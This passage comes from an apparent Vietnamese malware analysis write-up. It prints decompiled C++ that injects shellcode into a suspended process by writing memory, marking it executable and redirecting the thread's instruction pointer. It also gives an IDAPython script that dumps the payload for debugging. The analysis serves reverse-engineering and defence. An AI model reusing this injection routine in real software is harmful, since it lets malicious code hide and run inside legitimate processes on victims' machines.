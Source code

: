 ![alt text](./images/image-14.png)

```cpp
  StartupInfo.cb = 0x68;
  memset(&StartupInfo.lpReserved, 0, 0x60);
  CreateProcessA(0i64, strTargetProcess, 0i64, 0i64, 0, CREATE_SUSPENDED, 0i64, 0i64, &StartupInfo, &ProcessInformation);
  pTargetProcessAddr = VirtualAllocEx(ProcessInformation.hProcess, 0i64, dwScSize, MEM_COMMIT, PAGE_READWRITE);
  WriteProcessMemory(ProcessInformation.hProcess, pTargetProcessAddr, shellCodePtr, dwScSize, 0i64);
  VirtualProtectEx(ProcessInformation.hProcess, pTargetProcessAddr, dwScSize, PAGE_EXECUTE_READWRITE, flOldProtect);
  threadCtx.ContextFlags = CONTEXT_FULL;
  GetThreadContext(ProcessInformation.hThread, &threadCtx);
  threadCtx.Rip = pTargetProcessAddr;
  SetThreadContext(ProcessInformation.hThread, &threadCtx);
  LODWORD(g_val_0x1_1) = ResumeThread(ProcessInformation.hThread);
```

### 2. Payload_Shellcode Analysis

- Khi phân tích `"payload_shellcode"` có thể debug qua PID của `"svchost.exe"` sử dụng IDA attach nhưng lời khuyên là dump shellcode từ process memory khi debug `"msedge.dll"` và patch header dump shellcode thành PE-File rồi debug ( Tools shellcode2exe: https://github.com/repnz/shellcode2exe ).

```python
import idaapi
import binascii

start_address = 0x000001932CC382C0
end_address = start_address + 0x000000000000F1B2
data = idaapi.get_bytes(start_address, 0x000000000000F1B2)

with open("dumped_data.bin", "wb") as f:
    f.write(data)
    f.close()
    print("Success dump file data!")
```

